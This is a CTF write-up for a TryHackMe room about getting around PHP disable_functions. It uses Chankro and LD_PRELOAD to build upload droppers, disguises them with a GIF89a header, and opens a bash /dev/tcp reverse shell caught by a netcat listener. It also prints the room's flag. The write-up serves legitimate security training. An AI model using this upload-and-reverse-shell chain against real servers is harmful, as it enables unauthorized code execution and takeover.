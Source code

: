## Bypass Disable Functions - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bypassdisablefunctions)

What is a file upload vulnerability?

This vulnerability occurs in web applications where there is the possibility of uploading a file without being checked by a security system that curbs potential dangers. 

It allows an attacker to upload files with code (scripts such as .php, .aspx and more) and run them on the same server, more information in this room.

Why this room?

Among the typically applied measures is disabling dangerous functions that could execute operating system commands or start processes. Functions such as system() or shell_exec() are often disabled through PHP directives defined in the php.ini configuration file. Other functions, perhaps less known as dl() (which allows you to load a PHP extension dynamically), can go unnoticed by the system administrator and not be disabled. The usual thing in an intrusion test is to list which functions are enabled in case any have been forgotten.

One of the easiest techniques to implement and not very widespread is to abuse the mail() and putenv() functionalities. This technique is not new, it was already reported to PHP in 2008 by gat3way, but it still works to this day. Through the putenv() function, we can modify the environment variables, allowing us to assign the value we want to the variable LD_PRELOAD. Roughly LD_PRELOAD will allow us to pre-load a .so library before the rest of the libraries, so that if a program uses a function of a library (libc.so for example), it will execute the one in our library instead of the one it should. In this way, we can hijack or "hook" functions, modifying their behaviour at will.

[Chankro](https://github.com/TarlogicSecurity/Chankro): tool to evade disable_functions and open_basedir

Through Chankro, we generate a PHP script that will act as a dropper, creating on the server a .so library and the binary (a meterpreter, for example) or bash script (reverse shell, for example) that we want to execute freely, and that will later call putenv() and mail() to launch the process.

Install tool:

```
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help

python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html

--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads. 
```

Now, when executing the PHP script in the web server, the necessary files will be created to execute our payload. My command run successfully, and I created a file in the directory with the output of the command.

All credit goes to [Tarlogic](https://www.tarlogic.com/es/blog/evadir-disable_functions-open_basedir/) for the script and explaining the method of the bypass.

**IP: 10.10.248.32**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: File Upload Vulnerabilities <br>

**Tools Used**: Nmap, Nikto, Gobuster, Chankro

[Chankro](https://github.com/TarlogicSecurity/Chankro)<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- First, I did Nmap scan as always.

  ```
  nmap -A -p- 10.10.248.32
  22 open, 80 open
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  ```

- Ok, cool, so it has web app. I did Gobuster, it found couple of directories, and Nikto but I forgot to save Gobuster output...

  ```
  nikto -h 10.10.248.32
  /phpinfo.php
  Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64
  ```
  
- While I was going through web page, I found `/assets` and when I went to `/phpinfo.php` I found root directory `/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`

---

## ⚙️ Shell Access

- Alrighty, let's start exploiting with Chankro. Tool is pretty simple, it is going to make your script into `.php` and allow it to execute custom payloads without the PHP restriction. Let's test it with basic command `whoami`.

  Make a shell, use Chankro then upload both files and open them on web page.

  ```
  #Creating payload
  nano command.sh
  
  #!/bin/bash
  
  whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/exploit.txt

  #Save this payload

  #Now use Chankro
  python2 Chankro/chankro.py --arch 64 --input command.sh --output exploit.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  ```

- Since that part is done, before you upload them, you must edit `exploit.php` by adding `GIF89a;` at the beginning of script othervise it won't work at all. Then upload exploits and open them on web page.

  ```
  go to http://10.10.248.32/uploads and open exploit.php
  
  go to http://10.10.248.32/exploit.txt and open it
  ```

- `exploit.txt` will show `www-data` which means command worked! Now let's do the same process again but with interractive shell instead of command.

  ```
  nano shell.sh
  
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/[PORT] 0>&1
  
  #Save it.
  
  python2 Chankro/chankro.py --arch 64 --input shell.sh --output exploit2.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
  
  edit exploit2.php by adding GIF89a; at the beginning
  ```

- Now upload `exploit2.php`, start a listener and then open the `exploit2.php` on web page and you'll have interractive shell. Let's get the flag now.
  ```
  nc -lvnp [PORT]
  ```
  
---

## 🧍 User Privilege Escalation

- Getting the flag was pretty easy, use `find` to find it and then `cat` it.
  ```
  find / -name flag.txt
  
  cat /home/s4vi/flag.txt
  ```

---

## 🏁 Flags

- **User Flag**: `thm{bypass_d1sable_functions_1n_php}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much honestly.`

- What did I learn?
  `New tool and new exploits.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
